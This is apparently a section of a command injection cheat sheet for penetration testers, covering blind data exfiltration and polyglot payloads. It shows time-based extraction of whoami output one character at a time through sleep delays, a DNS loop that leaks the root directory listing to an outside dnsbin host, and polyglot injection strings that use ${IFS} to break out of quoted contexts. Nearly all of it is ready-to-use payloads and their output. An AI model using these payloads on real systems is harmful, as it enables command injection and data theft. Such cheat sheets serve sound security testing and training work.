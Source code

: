 ## Data Exfiltration

### Time Based Data Exfiltration

Extracting data char by char and detect the correct value based on the delay.

* Correct value: wait 5 seconds

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* Incorrect value: no delay

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```

### Dns Based Data Exfiltration

Based on the tool from [HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin), also hosted at [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. Go to [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
2. Execute a simple 'ls'

  ```powershell
  for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
  ```

Online tools to check for DNS based data exfiltration:

* [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
* [app.interactsh.com](https://app.interactsh.com)
* [portswigger.net](https://portswigger.net/burp/documentation/collaborator)


## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:

  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "Hello${}, ``````$@${}${}`whoami${}`"
  
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
